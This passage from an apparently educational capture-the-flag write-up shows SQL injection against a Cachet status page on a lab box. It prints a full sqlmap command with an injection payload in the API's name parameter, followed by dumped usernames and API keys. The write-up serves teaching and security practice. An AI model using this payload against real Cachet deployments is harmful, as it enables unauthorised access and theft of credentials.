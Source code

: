 
Interestingly, it couldn’t find a boolean injection, but only a time-based
one. I wasn’t able to recreate the boolean injection manually either. I think
it’s missing data in the database (because this is an unintended path on a CTF
box) that it would show or not show, and that’s why it fails. This is more of
a pain (no threads), but will still work.

#### Enumerate DB

Because the injection is slow, I’ll guess that the DB name is the same as the
[example](https://github.com/CachetHQ/Cachet/blob/2.4/.env.example) `.env`
file, “cachet”. There should be a `users` table that has hashes and API keys.
From [the docs](https://docs.cachethq.io/docs/api-authentication), API keys
are created when the user is created:

> The API Token is generated at installation time for the main user or when a
> new team member is added to your status page and can be found on your
> profile page (click your profile picture to get there).

The `User` object ([defined
here](https://github.com/CachetHQ/Cachet/blob/2.4/app/Models/User.php)) has
`username`, `password`, and `api_key` fields, among others. I would normally
dump the password, but I know from the chat leak that it’s not something I can
crack. I’ll dump the `username` and `api_key`:

    
    
    oxdf@hacky$ sqlmap -u "http://status.catch.htb:8000/api/v1/components?name=1&1[0]=&1[1]=a&1[2]=&1[3]=or+%27a%27=%3F%20and%201=1)*+--+" --batch -D cachet -T users -C username,api_key --dump
    ...[snip]...
    Database: cachet
    Table: users
    [2 entries]
    +----------+----------------------+
    | username | api_key              |
    +----------+----------------------+
    | john     | 7GVCqTY5abrox48Nct8j |
    | admin    | rMSN8kJN9TPADl2cWv8N |
    +----------+----------------------+
    

### Get API Key Via Profile

Alternatively, instead of using the SQL injection, I can use the Let’s Chat
API to get john’s password, shown above. Then, logged in as john, visiting the
Profile page shows the API key:

![image-20220629144543952](https://0xdfimages.gitlab.io/img/image-20220629144543952.png)

### Generate Template

The [Cachet API docs](https://docs.cachethq.io/reference/ping) don’t show a
way to create templates using the API. That means I’ll need the GUI access as
john to do this part (though hit me up on Discord or Twitter if you figured
out how to do this with only an API key).

